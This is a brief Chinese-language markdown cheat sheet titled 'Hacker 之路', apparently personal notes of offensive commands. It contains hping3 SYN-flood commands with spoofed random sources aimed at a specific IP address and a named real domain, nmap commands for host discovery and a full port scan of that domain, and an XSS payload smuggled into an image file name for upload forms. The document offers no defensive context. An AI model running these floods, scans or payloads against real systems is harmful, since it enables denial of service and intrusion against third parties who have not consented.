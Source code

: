 ## Hacker 之路  
  
### hping3洪水攻击  
  
```shell  
sudo hping3 --flood -S --rand-source -p 80 121.42.155.69  
sudo hping3 -c 100000 -d 120 -S -w 64 -p 80 --flood --rand-source www.integle.com  
```  
  
### 扫描指定网段存活的主机  
  
```shell  
sudo nmap -sP -Pl -PT 192.168.1.0/24  
```  
  
### 端口服务扫描  
  
```shell  
sudo nmap www.integle.com -p0-65535  
```  
  
### XSS图片上传  

```html  
"><img src=x onerror=alert(location.href)>.jpg  
```  

